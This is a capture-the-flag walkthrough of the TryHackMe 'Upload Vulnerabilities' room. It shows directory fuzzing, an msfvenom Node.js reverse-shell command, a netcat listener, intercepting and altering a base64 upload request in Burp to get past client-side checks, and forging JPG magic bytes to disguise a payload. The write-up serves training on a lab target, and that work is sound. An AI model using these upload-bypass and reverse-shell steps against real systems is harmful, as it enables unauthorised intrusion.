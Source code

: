 ## THM Upload Vulnerabilities

# Basic Information

| #   |     |
| :-- | :-- |
|Type    | THM Room Challenge
|Organized  by | [TryHackMe](https://tryhackme.com/)
|Name    | **THM / Upload Vulnerabilities**
|URLs    | https://tryhackme.com/room/uploadvulns
|Author  | **Asentinn** / Okabe Rintaro
|       | https://ctftime.org/team/152207

%%[patreon-btn]

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring with the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.  
Join our [Discord Server](https://discord.com/invite/5MjU4Cxf3R)!

***
# Contents
* [Basic Information](#basic-information)
* [Recon](#recon)
* [Fuzzing](#fuzzing)
* [Additional readings](#additional-readings)
***

# Recon

I'm pulling the provided wordlist for the challenge.

![2021-08-08-15-34-20.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025720258/mPy7Gpptf.png)

![2021-08-08-15-36-29.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025732220/npSk6848D.png)

I'm already having the `/etc/hosts` entry for `jewel.uploadvulns.thm` so I'm accessing the page in browser.

> If do not, add the entry with room IP
> ```
> $ sudo nano /etc/hosts
> 
> {IP} jewel.uploadvulns.thm
> ```

![2021-08-08-15-37-52.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025740422/vSV71JHoV.png)

Running `whatweb`

```
$ whatweb jewel.uploadvulns.thm
```
![2021-08-08-15-39-04.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025750745/FTOHrT8_N.png)

We are dealing with the `Node.JS Express` backend. In the source of the page, there is a reference to the `upload.js` script file.

![2021-08-08-15-41-45.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025759300/vVdq_4LIcC.png)

Client-side validation can be easily worked around by passing the traffic through a Burp proxy and cutting the script import before it is rendered. In a real case scenario, backend validation should be at least as restrictive as client one, so it is good we can note down what files are supposed to be allowed or denied.

But first discover directories on the website

```txt
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://jewel.uploadvulns.thm/FUZZ 
```

![2021-08-08-22-06-04.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025774408/RvTlk_Znaj.png)

[Back to top](#contents) ⤴

## Client-side file upload restrictions

Let's try right away the NodeJS web shell

```
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4455 -o shell.js
```

![2021-08-08-15-58-56.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025783766/IccsnWsBE.png)

## MiM attack with request modification

We can sniff the upload request being made via Burp on a legit file.

![2021-08-08-22-02-15.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025795017/OkTYYJ-Y9.png)

Content is base64 encoded - so let's encode the `shell.js` file content and paste into Repeater - send it and voilà - we have the reverse shell file on the website.

![2021-08-08-22-00-55.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025807581/5zr4yGvib.png)

[Back to top](#contents) ⤴

# Fuzzing

We can see that existing backgrounds are named using free letter filename like `ABH.jpg` or `AVK.jpg`. Now, we can make assumption that any file that passes the upload are placed together with these backgrounds with name conforming to that rules.

> On the main page we can read *Upload it here and we'll add it to the slides!*

Fuzzing the `content` directory, we can see multiple files, and a few that have ~800 bytes - these are our payloads.

> There are multiple files uploaded because I was trying different uploads before I found the right one. See the [Bonus content](#bonus-hiding-malicious-code-behind-jpg-signature)

```
$ ffuf -w UploadVulnsWordlist.txt:FUZZ -u http://jewel.uploadvulns.thm/content/FUZZ -e .jpg
```

![2021-08-08-21-41-14.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025822041/L3trZYTyk.png)

> Other files with 800 and 799 bytes size are my previous attempts.

```
$ curl http://jewel.uploadvulns.thm/content/HRH.jpg
```

![2021-08-08-21-40-42.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025835057/esyOpliap.png)

When you try accessing the shell directly

![2021-08-08-22-07-39.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025846800/puYxuAIR0.png)

But during the directory fuzzing we have discovered the `admin` directory.

[Back to top](#contents) ⤴

## `/admin`

![2021-08-08-17-19-15.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025946263/mRynBvBqOp.png)

Can we access the file via this form? 

![2021-08-08-21-42-32.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025957871/GNAHY2wVZ.png)

Before making a request, start the listener with `nc -lvnp {PORT}` and submit the form on `/admin`.

![2021-08-08-21-42-19.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025970867/Miw2bwR-D.png)

Yes, indeed.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629096019249/jH7ipAKXB.png)

> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:

>✔ Automatic GitHub Backup

>✔ Write in Markdown

>✔ Free domain mapping

>✔ CDN hosted images

>✔ Free built-in newsletter service

>✔ Built-in blog monetizing through the Sponsor feature

> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.

[Back to top](#contents) ⤴

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media

> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)

> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)

> 👉 LinkedIn: [Kamil Gierach-Pacanek](https://www.linkedin.com/in/kamilpacanek)

> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)

> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)


## Bonus: hiding malicious code behind JPG signature

Forging a JPG/JPEG file requires a file to start with _magic number_ `FF D8 FF`.

![2021-08-08-15-45-40.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629025999955/gkf6wjGND.png)

1. Edit payload: prepend `AAA` at the beginning of the file

2. Edit the payload in `hexedit` replacing first octets with `FF D8 FF`.

Before:

![2021-08-08-21-56-06.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026010299/-rNo_5Roi.png)
![2021-08-08-21-56-48.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026017976/lH6lGS0jd.png)

After:

![2021-08-08-21-59-21.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026028932/278nMuUIM.png)
![2021-08-08-21-57-30.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026037512/t4KNGMQ6d.png)

![2021-08-08-16-39-33.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1629026049401/npMd99XAy.png)

[Back to top](#contents) ⤴


